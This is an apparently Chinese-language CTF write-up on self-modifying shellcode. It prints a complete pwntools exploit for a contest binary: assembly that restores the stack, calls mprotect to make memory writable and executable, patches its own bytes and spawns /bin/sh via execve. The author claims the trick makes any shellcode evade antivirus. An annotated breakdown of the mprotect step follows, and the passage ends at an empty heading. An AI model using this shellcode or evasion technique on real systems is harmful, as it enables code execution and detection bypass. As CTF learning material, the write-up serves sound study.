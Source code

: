 ```yaml
---
typora-copy-images-to: ./images
---
```


# 自改变shellcode

by Maple

校赛的`shell_for_shell`打破防了，但学到了一个叫做**自改变shellcode**的shellcode注入方式，理论来说可以实现所有的shellcode免杀，记录一下

先贴exp：

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
gdb.attach(p)

#----恢复栈帧------
shellcode = """
	mov rbp, 0x404500
    mov rsp, rbp
    lea r15, [rip+0xe00]
    sub r15, 0xe16
    mov rdi, r15
    mov rsi, 0x1000
    mov rdx, 0x7
    mov rax, 0x401070
    call rax
    mov si, word ptr [r15 + 0x100]
    add si, 0x101
    mov word ptr [r15 + 0x100], si
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
"""
payload = (b"\x00\xc0"+asm(shellcode)).ljust(0x100-3, b"\x90")+b"\x0e\x04"

print(payload)
p.send(payload)
p.interactive()
```

这边分段分析一下

## 恢复栈+调用mprotect改权限

```assembly
	mov rbp, 0x404500	;栈底恢复
    mov rsp, rbp	;rbp赋给rsp，恢复栈顶
    lea r15, [rip+0xe00]	;这里如果动调过会发现rip被保留了（其实看ida的汇编码也能看出来），就拿rip做传递栈指针
    sub r15, 0xe16	;额外减0x16，为栈留出空间
    mov rdi, r15	;rdi被传递,这里即addr = rdi
    mov rsi, 0x1000	;len = 0x1000
    mov rdx, 0x7	;prot = 7
    mov rax, 0x401070	;	rax = 0x401070(对应mprotecct)
    call rax	;callmprotect指令
```

这里将栈底恢复为`0x404500`(因为动调发现这里有写入权限)，而写中间值是为了方便上下增长

![image-20250401233510572](./images/image-20250401233510572.png)

## 

